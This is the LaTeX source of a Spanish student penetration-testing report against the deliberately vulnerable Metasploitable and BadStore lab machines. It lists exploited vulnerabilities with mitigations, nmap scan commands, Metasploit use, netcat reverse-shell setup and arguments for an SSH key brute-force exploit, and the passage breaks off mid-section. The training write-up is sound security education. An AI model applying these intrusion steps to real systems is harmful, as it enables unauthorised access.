\documentclass[12pt,oneside,a4paper]{book}
\usepackage[%
  a4paper,%
  left = 20mm,%
  right = 20mm,%
  textwidth = 178mm,%
  top = 40mm,%
  bottom = 30mm,%
  %heightrounded,%
  headheight=70pt,%
  headsep=25pt,%
]{geometry}
\usepackage{graphicx}
\usepackage[sfdefault,light]{FiraSans}
\usepackage{hyperref}
\hypersetup{
    colorlinks = true,
    allcolors  = link-blue, 
}
\usepackage{lastpage}
\usepackage{graphicx}
\usepackage{float}
\usepackage{xspace}
\usepackage{longtable}
\usepackage{tabularx}
\usepackage{verbatim}
\usepackage{color,colortbl}
\usepackage{multirow}

\definecolor{link-blue}{RGB}{6,69,173}
\definecolor{dark-green}{RGB}{52,133,62}
\definecolor{light-blue}{RGB}{127,180,240}
\definecolor{dark-blue}{RGB}{72,120,224}
\definecolor{heading-grey}{RGB}{128,128,128}
\definecolor{heading2-grey}{RGB}{200,200,200}
\definecolor{Critical}{RGB}{136, 14, 79}
\definecolor{High}{RGB}{255, 0, 0}
\definecolor{Medium}{RGB}{255, 150, 0}
\definecolor{Low}{RGB}{255, 235, 60}
\definecolor{Informational}{RGB}{94,185,255}

\usepackage{listings}
\usepackage{enumitem}
\usepackage{array,booktabs}
\usepackage{fancyhdr}
\renewcommand{\footrulewidth}{0.2pt}
\renewcommand{\headrulewidth}{0.2pt}
\fancyfoot{}
\fancyhead{}
\fancyfoot[C]{Confidential}
\fancypagestyle{plain}{
    \fancyfoot[R]{\\ \textcolor{heading-grey}{\newline Page \thepage\ of \pageref{LastPage}}}
    \fancyfoot[C]{\textcolor{heading-grey} \\ Información Confidencial \\ (\href{https://keepcoding.io}{keepcoding.io})}
    \fancyhead[R]{
\includegraphics[width=1.5cm]{img/kp1.png}}
}
\fancypagestyle{fancy}{
    \fancyfoot[R]{\\ \textcolor{heading-grey}{\newline Page \thepage\ of \pageref{LastPage}}}
    \fancyfoot[C]{\textcolor{heading-grey}{ Información Confidencial \\ (\hyperlink{https://keepcoding.io}{keepcoding.io})}}
    \fancyhead{}
}
\thispagestyle{fancy}\pagestyle{plain}

\newcommand{\email}[1]{\href{mailto://#1}{#1}}
\newcommand{\newchapter}[1]{{\section*{#1}
\addcontentsline{toc}{chapter}{#1}}}
\newcommand{\newsection}[1]{{\subsection*{#1}
\addcontentsline{toc}{section}{#1}}}
\newcommand{\newsubsection}[1]{{\subsubsection*{#1}
\addcontentsline{toc}{subsection}{#1}}}
\usepackage[skip=10pt plus1pt, indent=0pt]{parskip}

\usepackage{etoolbox}
\makeatletter
\patchcmd{\chapter}{\if@openright\cleardoublepage\else\clearpage\fi}{}{}{}
\makeatother
\makeatletter
\renewcommand\tableofcontents{%
    \if@twocolumn
      \@restonecoltrue\onecolumn
    \else
      \@restonecolfalse
    \fi
    \section*{\contentsname
        \@mkboth{%
           \MakeUppercase\contentsname}{\MakeUppercase\contentsname}}%
    \@starttoc{toc}%
    \if@restonecol\twocolumn\fi
    }
\makeatother

\usepackage{titlesec}

\titleformat{\section}
{\normalfont\huge\bfseries}{\thesection}{1em}{}
\titleformat{\subsection}
{\normalfont\Large\bfseries}{\thesubsection}{1em}{}
\titleformat{\subsubsection}
{\normalfont\large\bfseries}{\thesubsubsection}{1em}{}

% \titleformat{command}[shape]{format}{label}{sep}{before}[after]
% \titlespacing{command}{left spacing}{before spacing}{after spacing}[right]

\titlespacing{\section}{0pt}{1em}{0.5em}
\titlespacing{\subsection}{0pt}{0em}{0.25em}

\usepackage[T1]{fontenc}
\renewcommand*\oldstylenums[1]{{\firaoldstyle #1}}

\def\projectno{897-19}

\begin{document}

\renewcommand{\headrulewidth}{0pt}






%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%           BEGIN TITLE PAGE          %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\begin{titlepage}
   \thispagestyle{fancy}
   \begin{center}
        \vspace{5em}
   
        \centering
\includegraphics[width=12cm]{img/kp2.png}

        \vspace{5em}

        \huge{\textbf{Práctica de módulo}}

        \vspace{2em}
        
        \huge{\textbf{Pentesting sobre sistema Metasploitable y aplicación web BadStore \\}}
        
        \vspace{5em}

        \Large{por Javier González Espinoza}

        \vspace{7em}
        
   \end{center}

    \normalsize{}
    \normalsize{Date: \today \\
     Módulo: Pentesting \\
     Profesor: Roberto López}
    
\end{titlepage}

\renewcommand{\headrulewidth}{0.2pt}

\newpage

\tableofcontents

\newpage


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%           END TITLE PAGE           %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%












%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%         BEGIN CONTENTS        %%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%





%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%% CHAPTER 1 %%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newchapter{I.  Ámbitos de la auditoría}

\vspace{2em}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%% ÁMBITOS %%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\phantomsection
\newsection{1.	Caso 1}

\vspace{1em}

\hspace{20pt}
Identificar y explotar el mayor número de vulnerabilidades en la máquina Metasploitable que puede descargarse del siguiente enlace.

\vspace{1em}

https://drive.google.com/file/d/1Z\_m9RgCUN4McvcFpmlZjfYtdUTLZSoif/view?usp=sharing

\vspace{1em}

\hspace{20pt}
El entregable será un informe con una lista de vulnerabilidades. Para cada una de ellas hay que rellenarlas con los siguientes campos:

\begin{itemize}
	\item \textbf{Descripción}: En que consiste el fallo de seguridad.
	\item \textbf{Impacto}: Cual es el peligro/impacto de explotar esta vulnerabilidad.
	\item \textbf{Explotación}: Explicación paso a paso seguido en la identificación y explotación y de la vulnerabilidad. El receptor del informe (en el mundo real el cliente que te ha contratado) tiene que ser capaz de reproducir tus pasos.
	\item \textbf{Mitigación}: Breve explicación de como solucionar el fallo (1 o 2 lineas podrian ser suficientes en muchos casos).
\end{itemize}

\vspace{2em}

\phantomsection
\newsection{2.	Caso 2}

\vspace{1em}

\hspace{20pt}
Identificar y explotar el mayor número de vulnerabilidades en la aplicación web Badstore que se encuentra en el siguiente enlace:

\vspace{1em}

https://drive.google.com/file/d/1DzkH-YT0pLpKXkg837Tma5EMiX0BKGJI/view?usp=sharing

\vspace{1em}

El fichero es una ISO. Hay que crear una máquina virtual Debian 9 64bits y seleccionar la ISO como disco instalador.

\vspace{1em}

El entregable será un informe con una lista de vulnerabilidades. Para cada una de ellas hay que
rellenarlas con los siguientes campos:

\vspace{1em}

\begin{itemize}
	\item \textbf{Descripción}: En que consiste el fallo de seguridad.
	\item \textbf{Impacto}: Cual es el peligro/impacto de explotar esta vulnerabilidad.
	\item \textbf{Explotación}: Explicación paso a paso seguido en la identificación y explotación y de la vulnerabilidad. El receptor del informe (en el mundo real el cliente que te ha contratado) tiene que ser capaz de reproducir tus pasos.
	\item \textbf{Mitigación}: Breve explicación de como solucionar el fallo (1 o 2 lineas podrian ser suficientes en muchos casos).
\end{itemize}	

\vspace{2em}

\phantomsection
\newsection{3.	Nota importante}

\vspace{1em}

\hspace{20pt}
Durante el desarrollo y documentación del presente trabajo tuve un problema con la máquina \textit{Arch Linux} desde la cual estaba realizando la explotación de las máquinas, ya que me falló una librería de Perl al arrancar un exploit. Como la máquina comenzó a presentar fallo a nivel de sistema en la ejecución de ciertas herramientas, tomo la desición de aplazar la solución de este problema para mas adelante y cambiarme a una máquina con \textit{Parrot OS}, con el fin de terminar el resto de las explotaciones. Explico esto para destacar el porque se aprecian imagenes con las consolas de ambas distribuciones Linux en el trabajo.

\newpage



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%% CHAPTER 2 %%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newchapter{II.	Informe ejecutivo}

\vspace{2em}

\phantomsection
\newsection{1.	Caso 1: Sistema Metasploitable}

\vspace{2em}

\newsubsection{a.	Resumen del proceso}

\vspace{1em}

\hspace{20pt}
Se realiza test de penetración sobre sistema operativo Metasploitable, con el objetivo de identificar posibles vulnerabilidades y evaluar la robustez de la seguridad del sistema. Para esto se utilizan técnicas de hacking de sistemas en conjunto a la recopilación de información respectiva para explorar posibles brechas en este.

\vspace{2em}

\newsubsection{b.	Vulnerabilidades encontradas}

\vspace{1em}

\hspace{20pt}
Dentro del total de vulnerabilidades encontradas a través de los análisis con Nessus y nmap scripting, se detallan a continuación las que han sido vulneradas, obteniendo la intrusión sobre el sistema objetivo.

\vspace{1em}

\begin{table}[htbp]
    \centering
    \begin{tabular}{|c|c|c|c|}
         \hline
         \textbf{CVE} & \textbf{Vulnerability} & \textbf{Severity} & \textbf{CVSS} \\
         \hline
         CVE-2016-2118 & Samba Badlock  & \cellcolor{High}High & 7.5  \\
         \hline
         CVE-2008-0166 & Debian OpenSSH/OpenSSL & \cellcolor{Critical}Critical & 10.0  \\
         \hline
         CVE-2010-4094 & Apache Tomcat SEoL 5.5 & \cellcolor{Critical}Critical & 10.0  \\
         \hline
    \end{tabular}
\end{table}

\vspace{2em}

\begin{itemize}
\item \textbf{CVE-2016-2118: Samba Badlock}
	
\vspace{1em}

\hspace{20pt}
Se descubre que el sistema es vulnerable a Samba Badlock, la cual permite tener acceso al sistema de forma remota, y con esto, posibilidad de realizar acciones como root al interior de este.

\vspace{2em}

\item \textbf{CVE-2008-0166: Debian OpenSSH/OpenSSL}

\vspace{1em}

\hspace{20pt}
Esta vulnerabilidad presente en el sistema Metasploitable permite realizar la conexión como usuario root a través del servicio SSH, gracias a un ataque de fuerza bruta realizado sobre las claves RSA del protocolo, lo que permite realizar la autenticación como usuario root sobre este sin necesidad de tener las credenciales correctas.

\vspace{2em}

\item \textbf{CVE-2010-4094: Apache Tomcat SEoL 5.5}

\vspace{1em}

\hspace{20pt}
Vulnerabilidad presente en el sistema que se presenta debido a la mantención de credenciales predeterminadas en el servidor Apache Tomcat. Esto permite que el servicio sea vulnerable a ataques de fuerza bruta que descubran las credenciales poco segura, dando la facilidad para realizar conexiones remotas como usuario administrador sobre este.
\end{itemize}

\vspace{2em}

\newsubsection{c.	Conclusiones}

\vspace{1em}

\hspace{20pt}
El sistema Metasploitable presenta múltiples vulnerabilidades, de las cuales tres han sido explotadas con la finalidad de demostrar los riesgos significativos para la seguridad de los datos y la privacidad de los usuarios que utilizan este servicio. Las vulnerabilidades encontradas podrían ser explotadas por ciberdelincuentes de diversas formas si no se toman las medidas adecuadas de mitigación y seguridad, con el fin de realizar actividades maliciosas dentro de esta y comprometer la confidencialidad, la integridad y la disponibilidad de los datos y del sistema como tal.

\vspace{2em}

\newsubsection{d.	Recomendaciones}

\vspace{1em}

\hspace{20pt}
Se entregan las siguientes recomendaciones con el fin de mejorar la experiencia sobre el sistema para los usuarios y fortalecer la seguridad de este:

\vspace{1em}

\begin{itemize}
\item Mantener actualizadas las versiones de los distintos servicios en ejecución dentro del sistema a las últimas versiones disponibles.
\item Mantener actualizadas el sistema operativo a la última versión disponible.
\item Configurar el reglas de firewall para restringir el acceso no autorizado a los servicios desde dispositivos no permitidos, dentro o fuera de la red.
\item Establece la monitorización de logs general para todos los servicios que se encuentren en ejecución sobre el sistema para detectar posibles actividades sospechosas y tener control sobre las acciones realizadas sobre estos.
\item Realizar el cambio de credenciales inseguras y predeterminadas cada cierto tiempo, con la finalidad de disminuir la entropía del sistema ante posibles ataques de diccionario o fuerza bruta.
\end{itemize}

\vspace{2em}

\phantomsection
\newsection{2.	Caso 2: Sistema BadStore}

\vspace{2em}

\newsubsection{a.	Resumen del proceso}

\vspace{1em}

\hspace{20pt}
Se realiza test de penetración sobre sistema operativo BadStore, con el finalidad de identificar vulnerabilidades presentes sobre el servicio web en ejecución, y con esto evaluar la robustez de la seguridad del sistema. Para esto se utilizan técnicas de hacking web en conjunto a la recopilación de información respectiva para explorar posibles brechas en este.

\vspace{2em}

\newsubsection{b.	Vulnerabilidades encontradas}

\vspace{1em}

\hspace{20pt}
Dentro del total de vulnerabilidades encontradas a través de los análisis con Nessus, se detallan a continuación las que han sido explotadas, obteniendo a diversos tipos de información en el sistema objetivo.

\vspace{1em}

\begin{table}[htbp]
    \centering
    \begin{tabular}{|c|c|c|}
         \hline
         \textbf{CVE or CWE} & \textbf{Vulnerability} & \textbf{Severity} \\
         \hline
         CWE-79 & Cross Site Scripting Stored & \cellcolor{High}High  \\
         \hline
         CWE-89 & SQL Injection  & \cellcolor{High}High  \\
         \hline
         CVE-2002-1809 & MySQL root connection without authentication & \cellcolor{Critical}Critical  \\
         \hline
         CWE-434 & Unrestricted File Upload & \cellcolor{High}High \\
         \hline
         CWE-284 & Broken Access Control & \cellcolor{Critical}Critical  \\
         \hline
    \end{tabular}
\end{table}

\vspace{2em}

\begin{itemize}
\item \textbf{CWE-79: Cross Site Scripting Stored (XSS persistence)}
	
\vspace{1em}

\hspace{20pt}
Se encuentran diversos inputs typetext en el sitio web que son vulnerables a la inyección de código malicioso mediante Cross Site Scripting (XSS) . Estos permiten la ejecución de scripts en el navegador de los usuarios que comprometen la seguridad y privacidad del sistema y de los demás usuarios de la plataforma.
\vspace{2em}

\item \textbf{CWE-89: SQL Injection}

\vspace{1em}

\hspace{20pt}
Se identifican ciertos puntos de entrada inseguros en la aplicación web, los cuales permiten la inyección de código SQL malicioso, que permite la visualización de datos sensibles del servicio, y comprometer la integridad de la base de datos así como exponer información confidencial del sistema.

\vspace{2em}

\item \textbf{CVE-2002-1809: MySQL root connection without authentication}

\vspace{1em}

\hspace{20pt}
Vulnerabilidad que permite realizar una conexión de forma remota con la base de datos a través del cliente mysql como usuario root. El acceso de esta forma a la base de datos permite que cualquier usuario acceda a ella tan solo conociendo la dirección IP del sistema y utilizando el nombre de usuaroi root. Debido a esto se pueden exponer la totalidad de los datos almacenados en al base de datos del servidor.

\vspace{2em}

\item \textbf{CWE-434: Unrestricted File Upload}

\vspace{1em}

\hspace{20pt}
Se descubre que gracias a la baja sanitización y control sobre la carga de archivos al servidor, se pueden subir ficheros con código malicioso a este, el cual puede ser utilizado para tomar control total del sistema de forma remota.

\vspace{2em}

\item \textbf{CWE-284: Broken Access Control}

\hspace{20pt}
Se observa vulnerabilidad de ruptura de control de acceso, la cual permite cambiar los parámetros asignados a un usuario, como su rol y permisos dentro del sistema, para escalar priviliegios en la aplicación web y realizar acciones de un usuario administrativo.
\end{itemize}

\vspace{2em}





\newsubsection{c.	Conclusiones}

\vspace{1em}

\hspace{20pt}
El sistema BadStore presenta diversas vulenerabilidades en su sitio web, de las cuales se han explotado cinco con la finalidad de demostrar los riesgos significativos para la seguridad de los datos y la privacidad de los usuarios que utilizan este servicio. Las vulnerabilidades encontradas podrían ser explotadas por ciberdelincuentes de diversas formas si no se toman las medidas adecuadas de mitigación y seguridad, con el fin de realizar actividades maliciosas dentro de esta y comprometer la confidencialidad, la integridad y la disponibilidad de los datos y del sistema como tal.

\vspace{2em}

\newsubsection{d.	Recomendaciones}

\vspace{1em}

\hspace{20pt}
Se entregan las siguientes recomendaciones con el fin de mejorar la experiencia sobre el sistema para los usuarios y fortalecer la seguridad de este:

\vspace{1em}

\begin{itemize}
\item Realizar sanitización de las entradas de texto pertenecientes al sitio web, filtrando los caracteres correspondientes y anulando cualquier tipo de referencia a código malicioso en diversos lenguajes.
\item Hacer uso del mínimo privilegio al momento del desarrollo de un servicio.
\item Sanitizar todo tipo de cadenas y caracteres ingresadas por el usuario a nivel de servidor y no a nivel del cliente.
\item Generar listas de caracteres permitidos en los diferentes campos de entrada.
\item Eliminar información de ficheros accesibles como robots.txt.
\item Mantener actualizadas las tecnologías utilizadas en el sitio web, como lenguajes de programación de backend y frontend, frameworks, servidores, apis, librerías, entre otros.
\item Monitorear continuamente logs de servidores y servicios en ejecución sobre el sistema base, con la finalidad de controlar de la mejor forma cualquier tipo de posible ataque o intrusión.
\end{itemize}

\vspace{2em}

\newpage





%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%% CHAPTER 3 %%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newchapter{III.	Informe técnico}

\vspace{2em}

%%%%%%%%%%%%%%%
%%%%% CASO 1 %%%%%
%%%%%%%%%%%%%%%
\phantomsection
\newsection{1.	Caso 1: Sistema Metasploitable}

\vspace{1em}

\hspace{20pt}
Se toma como primer objetivo la máquina virtual Metasploitable 1, a la cual se le realiza la explotación de algunas de las vulnerabilidades encontradas a nivel de sistema.

\vspace{2em}

\newsubsection{a.	Recopilación de información}

\vspace{1em}

\hspace{20pt}
Para comenzar con la enumeración, se realiza un ping sobre la máquina objetivo mediante el envío de un paquete ICMP. Como se aprecia en la siguiente imagen, el paquete a sido recibido por lo que el sistema objetivo se encuentra alcanzable en al red.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/1.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Ahora, se realiza un escaneo general utilizando nmap sobre esta dirección IP (192.168.235.128). Pero antes, se detalla el uso de una utilidad creada nivel de sistema. 

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/2.png}
\end{center}

\vspace{1em}

\hspace{20pt}
La funcion \textit{extractPorts} programada en el fichero de sistema .zshrc permite extraer específicamente los puertos abiertos desde el fichero en formato grepeable asignado como output a la ejecución de nmap sobre la IP objetivo. Aclarado esto, se ejecuta nmap sobre la IP anterior.

\vspace{1em}

\begin{center}
    
\includegraphics[width=12cm]{img/3.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Tras la ejecución de nmap se genera un fichero de nombre \textit{allPorts}. Se utiliza \textit{extractPorts} sobre \textit{allPorts} para filtrar especificamente los puertos abiertos encontrados.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/4.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Con esto se conoce que los puertos abiertos de la dirección IP \textit{192.168.235.128} son los 21, 22, 23, 25, 53, 80, 139, 445, 3306, 3632, 5432, 8009 y 8180. Luego, se realiza un escaneo con nmap enfocado en estos puertos abiertos.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/5.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Los servicios detectados por puertos se detallan en la siguiente tabla.

\vspace{1em}

\begin{table}[H]
    \centering
    \begin{tabular}{|c|c|c|c|}
         \hline
         \textbf{ Port } & \textbf{ State } & \textbf{ Service } & \textbf{ Versión } \\
         \hline
         21/tcp & Open  & ftp & ProFTPD 1.3.1 \\
         \hline
         22/tcp & Open  & ssh & OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) \\
         \hline
         23/tcp & Open  & telnet & Linux telnetd \\
         \hline
         25/tcp & Open  & smtp & Postfix smtpd \\
         \hline
         53/tcp & Open  & domain & ISC BIND 9.4.2 \\
         \hline
         80/tcp & Open  & http & Apache httpd 2.2.8 \\
         \hline
         139/tcp & Open  & netbios-smb & Samba smbd 3.X - 4.X \\
         \hline
         445/tcp & Open  & netbios-smb & Samba smbd 3.0.20-Debian \\
         \hline
         3306/tcp & Open  & mysql & MySQL 5.0.51a-3ubuntu5 \\
         \hline
         3632/tcp & Open  & distccd & distccd v1 ((GNU) 4.2.4 \\
         \hline
         5432/tcp & Open  & postgresql & PostgreSQL DB 8.3.0 - 8.3.7 \\
         \hline
         8009/tcp & Open  & ajp13? & - \\
         \hline
         8180/tcp & Open  & http & Apache Tomcat/Coyote JSP engine 1.1 \\
         \hline
    \end{tabular}
\end{table}

\vspace{1em}

\hspace{20pt}
Posterior a esto, se procede a realizar el análisis de vulnerabilidades sobre la máquina objetivo hacia los puertos descubiertos.

\newpage

\newsubsection{b.	Análisis de vulnerabilidades}

\vspace{1em}

\hspace{20pt}
Como la explotación de esta máquina objetivo será ante vulnerabilidades de sistema, para realizar este se utiliza \textit{Nessus} en conjunto con scripts de \textit{nmap}.

\vspace{1em}

\hspace{20pt}
Se realiza un escaneo avanzado sobre la IP 192.168.1.187, de la cual se obtiene la siguiente información base:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/6.png}
\end{center}

\vspace{1em}

en donde se destacan vulnerabilidades de riesgo bajo,

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/7.png}
\end{center}

\vspace{1em}

vulnerabilidades de riesgo medio,

\vspace{1em}

\begin{center}
    
\includegraphics[width=12cm]{img/8.png}
\end{center}

\vspace{1em}

vulnerabilidades de riesgo alto,

\vspace{1em}

\begin{center}
    
\includegraphics[width=12cm]{img/9.png}
\end{center}

\vspace{1em}

y vulnerabilidades de riesgo crítico.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/10.png}
\end{center}

\vspace{1em}

\hspace{20pt}
En conjunto al análisis de Nessus se utiliza la tabla con servicios de nmap para investigar sobre posibles vulnerabilidades a explotar en el sistema objetivo a través de los scripts presentes en esta herramienta. Esta ejecución se realiza bajo la sintaxis

\vspace{1em}

\begin{center}
	sudo nmap 192.168.1.187 -p<number\_port> --script=vuln -oN p<number\_port>
\end{center}

\vspace{1em}

y se ejecuta sobre cada uno de los puertos abiertos. De este escaneo se obtiene la información detallada a continuación, donde se destacan algunas vulnerabilidades encontradas para ciertos puertos presentes en la máquina objetivo:

\vspace{1em}

\begin{table}[H]
    \centering
    \begin{tabular}{|c|c|c|c|}
         \hline
         \textbf{ Port } & \textbf{ Risk Factor } & \textbf{ CVE} & \textbf{ Details} \\
         \hline
         25/tcp & \cellcolor{Low}Low  & CVE-2014-3566 & SSL POODLE information leak\\
         \hline
         25/tcp & \cellcolor{Low}Low  & CVE-2015-4000 & Handling Diffie-Hellman key exchanges. \\
         \hline
         80/tcp & \cellcolor{Medium}Medium  & CVE-2011-3192 & The Apache is vulnerable to DoS attack. \\
         \hline
         3632/tcp & \cellcolor{High}High  & CVE-2004-2687 & distcc Daemon Command Execution \\
         \hline
         5432/tcp & \cellcolor{High}High  & CVE-2014-0224 & SSL/TLS MITM vulnerability (CCS Injection)\\
         \hline
         5432/tcp & \cellcolor{Low}Low  & CVE-2014-3566 & SSL POODLE information leak\\
         \hline
         8180/tcp & \cellcolor{Medium}Medium  & CVE-2007-6750 & DoS attack Apache server\\
         \hline
    \end{tabular}
\end{table}

\newpage

%%%%% Explotación %%%%%
\newsubsection{c.	Explotación}

\vspace{1em}

\hspace{20pt}
De todas las vulnerabilidades encontradas en el apartado anterior, se explotan solo algunas de ellas con la finalidad de demostrar lo inseguro del sistema como tal.

\vspace{2em}

\begin{enumerate}
\item 	\textbf{CVE-2016-2118: Samba Badlock}

\vspace{1em}

\hspace{20pt}
Para llevar a cabo la explotación se utiliza metasploit. Se busca un exploit para vulnerabilidades presentes de SMB, para la cual se elige el llamado \textit{usermap\_script} (opción 8).

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/11.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Tras seleccionar dicho exploit, se asignan los parámetros solicitados por este para llevar a cabo la explotación:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/12.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Asignados los parámetros se procede a explotar la vulnerabilidad:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/13.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Para mejorar le experiencia sobre la terminal, se genera una reverse shell mediante netcat hacia nuestra máquina atacante. Para esto se deja en ejecución netcat esperando conexión a través del puerto 8484.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/14.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Luego, desde la sesión establecida por metasploit con la máquina Metasploitable se ejecuta el siguiente comando en bash:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/15.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Inmediatamente en la sesión de netcat se establecerá conexión con la máquina Metasploitable. Mediante una utilidad en bash se realiza la apertura de una bash shell para gestionar de mejor forma el prompt de la terminal:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/16.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Desde este punto se podría realizar un tratamiento de la TTY en la sesión de netcat, con la finalidad de tener una consola 100\% interactiva hacia la máquina objetivo y como proceso hijo del sistema en segundo plano. Esto para no correr el riesgo de perder conexión con el objetivo por teclear Ctrl+C, previo a establecer un método de persistencia mas eficaz. Con esto se demuestra la explotación de la vulnerabilidad.

\vspace{2em}

\begin{itemize}
	\item 	\textbf{Mitigación}

\vspace{1em}

\hspace{20pt}
La vulnerabilidad Badlock afecta al protoclo SMB, el cual es utilizado para compartir archivos y ciertos dispositivos en red. Funciona permitiendo a un atacante realizar ataques de tipo "man-in-the-middle" sobre el protocolo, lo cual le permite interceptar y manipular la comunicación entre dos partes.

\vspace{1em}

\hspace{20pt}
La mitigación de esta vulnerabilidad radica en:

\vspace{1em}

\begin{itemize}
\item  Mantener actualizadas las versiones de Samba a la última versión disponible.
\item Actualizar constantemente el sistema operativo, procurando tener instalados los últimos parches de seguridad de este (tanto en Linux como en Windows).
 \item  Configurar el firewall para restringir el acceso no autorizado a los servicios de Samba que se encuentren en ejecución en nuestro sistema desde ubicaciones externas a nuestra red. 
\item Establece la monitorización de logs en el sistema para detectar posibles actividades sospechosas. Esto permite identificar y responder rápidamente a cualquier intento de explotación de la presente vulnerabilidad.
\item Cambiar credenciales de autenticación de usuarios y administrador/es en la red, incluso si se corre la sospecha de una posible explotación de esta vulenrabilidad.
\end{itemize}
\end{itemize}

\vspace{2em}

\item \textbf{CVE-2008-0166: Debian OpenSSH/OpenSSL}

\vspace{1em}

\hspace{20pt}
Esta vulnerabilidad se explota de forma manual. Para comenzar, se buscan posibles exploits en la base de datos de exploit-db a través de la herramienta \textit{searchsploit}, para la cadena \textit{openssl linux}.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/17.png}
\end{center}

\vspace{1em}

\vspace{1em}

\hspace{20pt}
De las opciones anteriores se selecciona el exploit de nombre \textit{OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH} con número de id \textit{5720}. Se descarga mediante \textit{searchsploit -m 5720}. A dicho exploit se le cambia el nombre y se le asigna el de \textit{exploit.py}.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/18.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Se analiza el código del script \textit{exploit.py} con la finalidad de conocer el funcionamiento base del exploit sobre la presente vulnerabilidad. De las primeras lineas se obtiene el método de aplicación de este exploit. Pero para su correcto funcionamiento se solicita descargar un directorio de github, el cual contiene un número considerable de claves RSA, con las cuales el exploit hará fuerza bruta sobre la conexión SSH de la máquina objetivo.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/19.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Tras haber descargado el directorio de github, se procede a realizar la primera parte de la explotación, la cual es un ataque de fuerza bruta sobre las credenciales RSA de login de sesión del servicio SSH de la máquina metasploitable, forzando la conexión por usuario root. Para esto se utiliza el siguiente comando. (Se destaca el cambio de dirección IP sobre la máquina Metasploitable debido a problemas con la virtualización de este. Al realizar el levantamiento de una nueva instancia desde VirtualBox, por dhcp la IP cambió, pero la máquina sigue siendo la misma).

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/20.png}
\end{center}

\vspace{1em}

\hspace{20pt}
De la ejecución anterior se destacan los siguientes argumentos:

\vspace{1em}

\begin{itemize}
	\item \textbf{python exploit.py} : ejecución del exploit mediante python2.7 (no funciona con versión python3).
	\item \textbf{./rsa/2048/} : directorio con claves RSA-2048 a través de las cuales el exploit realiza fuerza bruta sobre el servicio SSH de la máquina a vulnerar.
	\item \textbf{192.168.1.132} : dirección IP de la máquina Metasploitable.
	\item \textbf{root} : usuario al cual se le aplica fuerza bruta con las claves RSA descritas anteriormente.
	\item \textbf{22} : puerto SSH al cual está enfocado el ataque.
	\item \textbf{10} : Hilos definidos para gestionar de una forma más ágil la explotación de la vulnerabilidad.
\end{itemize}

\vspace{1em}

\hspace{20pt}
